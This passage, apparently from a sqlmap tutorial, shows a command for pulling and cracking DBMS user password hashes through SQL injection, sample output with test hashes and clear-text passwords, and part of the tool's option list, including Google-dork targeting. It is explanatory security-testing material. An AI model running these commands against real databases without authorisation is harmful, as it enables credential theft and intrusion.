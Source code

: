 ### List DBMS user password hashes

If possible, list the password hashes of users of the DBMS.

```sh
sqlmap -u example.com?id=0 --password
```

```
[HH:MM:50] [INFO] found: 'testpass' for user: 'postgres'
database management system users password hashes:
[*] postgres [1]:
    password hash: md5d7d880f96044b72d0bba108ace96d1e4
    clear-text password: testpass
[*] testuser [1]:
    password hash: md599e5ea7a6f7c3269995cba3927fd0093
    clear-text password: testpass
```

## Demonstration

<div class="public-article-image">
    <img src="https://i.imgur.com/0ei5JqX.gif" /><br />
    <i>sqlmap SQL Injection Demonstration.</i>
</div>

## Details

### Configuration Options

```
NAME
    sqlmap - Automated SQL Injection Exploitation Tool

SYNOPSIS
    sqlmap [options]

OPTIONS
    -h, --help
        Show basic help message and exit.

    -hh
        Show advanced help message and exit.

    --version
        Show program's version number and exit.

    -v verbose
        Verbosity level: 0-6 (default 1).

    -u url, --url=url
        Target URL (e.g. "http://www.site.com/vuln.php?id=1").

    -g google_dork
        Process Google dork results as target URLs.

    --data=data
        Data string to be sent through POST (e.g. "id=1").

    --cookie=cookie
        HTTP Cookie header value (e.g. "PHPSESSID=a8d127e..").

    --random-agent
        Use randomly selected HTTP User-Agent header value.
```